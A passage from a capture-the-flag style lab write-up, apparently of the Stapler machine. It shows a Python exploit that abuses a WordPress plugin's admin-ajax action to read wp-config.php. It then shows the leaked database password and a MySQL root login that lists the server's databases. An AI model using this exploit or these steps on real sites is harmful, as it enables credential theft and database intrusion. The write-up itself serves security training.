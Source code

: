 ```py
objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()
```

Add the url as per the target page and run the python code. Upon successfull running of the exploit direct to [https://192.168.208.148:12380/blogblog/wp-content/uploads/](https://192.168.208.148:12380/blogblog/wp-content/uploads/) URL and find there is a image file located.

Download the image and use grep to search for string `password`. The exploit extracts the `wp-config.php` file contents as images file.

```text
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac')
```

Login to sql server using the credentials and extract wordpress username and hash of an administrative user.

## 3306/tcp - open  mysql - MySQL 5.7.12-0ubuntu1

Login the to sql server using the above extracted credentials.

```sh
naveenj@hackerspace:|01:27|~/proving_grounds/Stapler/files/img$ mysql -u root -pplbkac -h 192.168.208.148
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.226 sec)

MySQL [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```